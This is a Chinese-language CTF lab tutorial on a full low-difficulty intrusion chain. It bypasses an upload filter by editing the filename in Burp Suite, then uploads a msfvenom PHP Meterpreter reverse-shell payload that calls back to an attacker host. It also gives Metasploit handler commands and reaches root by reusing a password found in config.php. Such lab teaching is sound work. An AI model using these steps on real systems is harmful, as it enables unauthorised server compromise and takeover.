# CTF综合测试(低难度)：P21：19.21. 文件上传绕过与权限提升 🚩

## 概述
在本节课中，我们将学习如何通过绕过Web应用程序的文件上传过滤机制，上传一个Web Shell，并最终获取目标服务器的最高控制权（root权限）。我们将使用Burp Suite等工具，并涉及信息收集、漏洞利用和权限提升等核心渗透测试步骤。

## 课程内容

### 回顾与目标
上一节我们通过模糊测试登录到系统后台，并找到了一个文件上传点。我们发现系统允许上传图片文件（如`.jpg`），但会阻止直接上传`.php`文件。





本节中，我们将学习如何绕过这个上传过滤机制，上传一个恶意的PHP Web Shell，并利用它获得服务器的反弹Shell，最终提权至root用户。

### 第一步：使用Burp Suite绕过上传过滤
我们的目标是上传一个`.php`文件。由于直接上传被阻止，我们可以尝试将文件扩展名改为`.jpg`上传，然后在传输过程中使用Burp Suite拦截请求，将其改回`.php`。



以下是具体操作步骤：

1.  在攻击机中，将准备好的PHP文件重命名为`shell.jpg`。
2.  在浏览器中配置并开启代理，指向Burp Suite。
3.  在Web页面上传`shell.jpg`文件。
4.  Burp Suite会拦截到上传请求。在请求数据包中找到文件名部分，将其从`shell.jpg`修改为`shell.php`。
5.  将修改后的数据包转发给服务器。





通过这种方式，我们欺骗了服务器的前端检查，成功上传了PHP文件。



### 第二步：验证上传与准备Web Shell
上传成功后，我们需要验证文件是否存在于服务器的上传目录（例如`/uploads/`）中。访问该目录，确认`shell.php`文件已存在。



接下来，我们需要一个功能完整的Web Shell来获取系统访问权限。我们将使用`msfvenom`生成一个PHP反向Shell。





以下是生成反向Shell的命令：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<攻击机IP> LPORT=<监听端口> -f raw > shell.php
```
**参数解释**：
*   `-p php/meterpreter/reverse_tcp`: 指定生成PHP格式的Meterpreter反向TCP负载。
*   `LHOST`: 指定攻击机的IP地址，Shell将回连到此地址。
*   `LPORT`: 指定攻击机的监听端口。
*   `-f raw`: 指定输出格式为原始PHP代码。





生成后，需要手动删除代码首行的注释符（`/*`），否则代码无法正常执行。

### 第三步：上传Web Shell并建立连接
现在，我们重复第一步的绕过上传步骤，将生成的`shell.php`（重命名为`shell2.jpg`）上传到服务器。

上传成功后，在攻击机上启动Metasploit的监听器，等待反向连接。

以下是设置监听器的命令序列：
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <攻击机IP>
set LPORT <监听端口>
exploit
```

然后，在浏览器中访问上传的Web Shell文件（如`http://靶机地址/uploads/shell.php`）。一旦访问，该文件中的代码会执行，并尝试反向连接到我们的攻击机。此时，Metasploit监听器会接收到连接，我们便获得了一个Meterpreter会话，初步控制了目标服务器。

### 第四步：权限提升（提权）
获得初始Shell后，我们通常只是普通Web服务用户（如`www-data`），权限有限。我们的最终目标是获取`root`权限。

以下是常见的提权检查与操作思路：

1.  **检查当前权限**：使用命令 `id` 或 `whoami` 查看当前用户。
2.  **寻找提权路径**：
    *   **检查`sudo`权限**：运行 `sudo -l` 查看当前用户可以以root身份执行哪些命令。
    *   **查找敏感文件**：在网站目录、配置文件（如`config.php`）中寻找数据库连接密码等敏感信息。
    *   **利用系统信息**：运行 `uname -a` 查看内核版本，寻找公开的本地提权漏洞。
3.  **利用密码提权**：在本案例中，我们在`config.php`中找到了数据库的root密码。尝试使用该密码切换到系统root用户：
    ```bash
    su - root
    # 输入从config.php中找到的密码
    ```
    如果密码正确，我们将获得root权限，提示符通常会变为 `#`。

### 第五步：获取Flag
在CTF比赛中，最终目标是找到并读取`flag`文件。获得root权限后，便可以在文件系统的任何位置进行搜索。

常用的搜索命令包括：
```bash
find / -name "*flag*" 2>/dev/null
find / -type f -name "flag.txt" 2>/dev/null
cat /flag
cat /root/flag.txt
```

## 总结
本节课我们一起学习了完整的低难度CTF渗透测试流程：

1.  **信息收集**：定位上传点。
2.  **漏洞利用**：通过修改HTTP请求包绕过前端文件上传过滤。
3.  **建立立足点**：上传Web Shell，获得反向连接，取得初始访问权限。
4.  **权限提升**：利用发现的数据库密码等敏感信息，成功提权至root。
5.  **达成目标**：寻找并读取flag。



核心要点在于熟练掌握工具（如Burp Suite, Metasploit）的使用，理解常见漏洞（如文件上传绕过）的利用方式，并保持清晰的渗透思路：逐步深入，从外到内，最终夺取系统最高控制权。在CTF比赛中，请始终牢记最终目标是获取代表胜利的flag值。